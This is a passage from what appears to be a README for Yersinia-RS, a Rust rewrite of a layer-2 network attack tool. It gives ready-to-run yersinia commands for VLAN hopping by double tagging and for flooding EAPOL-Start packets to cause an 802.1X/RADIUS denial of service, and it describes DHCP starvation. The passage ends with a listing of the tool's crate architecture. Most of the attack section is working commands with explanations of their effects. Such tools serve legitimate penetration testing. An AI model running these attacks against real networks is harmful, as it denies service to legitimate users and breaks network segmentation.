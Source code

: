**What it does:**
- Requests DHCP leases with random MACs
- 100 requests per second
- Exhausts DHCP server IP pool
- Causes DoS for legitimate clients

### Example 4: VLAN Hopping (Double Tagging)

```bash
sudo yersinia -G dot1q -a 0 -I eth0 \
  -M outer_vlan=10 \
  -M inner_vlan=20 \
  -M target_mac=ff:ff:ff:ff:ff:ff \
  -v
```

**What it does:**
- Sends double-tagged frames
- Outer tag (VLAN 10) stripped by first switch
- Inner tag (VLAN 20) allows access to restricted VLAN
- Classic VLAN hopping attack

### Example 5: 802.1X DoS Attack

```bash
sudo yersinia -G dot1x -a 0 -I eth0 \
  -M rate_pps=50 \
  -M mac_mode=random \
  -v
```

**What it does:**
- Floods EAPOL-Start packets
- Random MAC addresses
- Exhausts authenticator state table
- Causes DoS on RADIUS server

---

## Architecture

Yersinia-RS uses a **modular workspace architecture** with 9 independent crates:

```
yersinia-rs/
├── yersinia-core/       # Core traits (Protocol, Attack, Parameter)
├── yersinia-packet/     # Packet construction (Ethernet, IP, UDP, TCP)
├── yersinia-capture/    # Packet capture wrapper (pcap)
├── yersinia-attack/     # Attack orchestration (Tokio runtime)
├── yersinia-protocols/  # Protocol implementations (CDP, STP, etc.)
├── yersinia-cli/        # CLI argument parsing (clap)
├── yersinia-tui/        # TUI interface (ratatui) - stub
├── yersinia-telnet/     # Telnet server - stub
└── yersinia/            # Main binary
```

